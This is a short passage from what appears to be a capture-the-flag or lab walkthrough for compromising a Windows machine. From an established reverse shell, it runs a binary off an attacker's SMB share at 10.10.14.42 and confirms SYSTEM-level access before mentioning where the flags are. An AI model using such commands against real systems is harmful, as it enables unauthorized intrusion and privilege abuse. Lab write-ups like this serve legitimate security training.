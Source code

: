 > If cannot locate the file, try run `sudo updatedb` first and try again. If not you have to download the file manually. 

Now, lets execute the binary from our reverse window shell by doing this: 

```
C:\WINDOWS\system32>\\10.10.14.42\fspxnky\whoami.exe
\\10.10.14.42\fspxnky\whoami.exe
NT AUTHORITY\SYSTEM
```

Well .. It says we are `NT AUTHORITY\SYSTEM`, means root/adminstrator! Flag are in administrator and john desktop folder!



